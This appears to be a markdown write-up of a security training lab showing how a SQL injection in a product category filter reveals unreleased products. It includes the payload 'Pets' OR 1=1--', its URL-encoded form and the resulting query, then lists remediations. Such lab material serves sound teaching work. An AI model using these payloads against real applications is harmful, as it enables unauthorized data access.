

## 🔍 Lab: SQL Injection Vulnerability in WHERE Clause Allowing Retrieval of Hidden Data

**Objective**: Perform a SQL injection to view unreleased products from the product list.

---

### 📝 Description

This lab demonstrates a **SQL injection vulnerability** in the product category filter. The application uses the following SQL query to return products based on category and release status:

```sql
SELECT * FROM products WHERE category = 'Pets' AND released = 1
```

By injecting a malicious payload into the `category` parameter, we can bypass the `released = 1` filter and retrieve **unreleased (hidden) products**.

---

### 💥 Injection Payload Used

```sql
Pets' OR 1=1--
```

URL-encoded form (what we actually use in the browser):

```
category=Pets%27+OR+1=1--
```

This modifies the query to:

```sql
SELECT * FROM products WHERE category = 'Pets' OR 1=1--' AND released = 1
```

The `OR 1=1` condition always evaluates to `TRUE`, and the `--` comment sequence disables the remaining clause, allowing **all products (including unreleased ones)** to be displayed.

---

### 📸 Screenshots

#### 🔹 Initial Web Page



#### 🔹 Result After SQL Injection


---

### ✅ Outcome

- Unreleased products were displayed successfully.
- The lab was marked as **Solved**.

---

### 🛡️ Remediation

To prevent SQL injection:

- Use **parameterized queries (prepared statements)**.
- Sanitize and validate user input.
- Disable detailed SQL error messages in production environments.
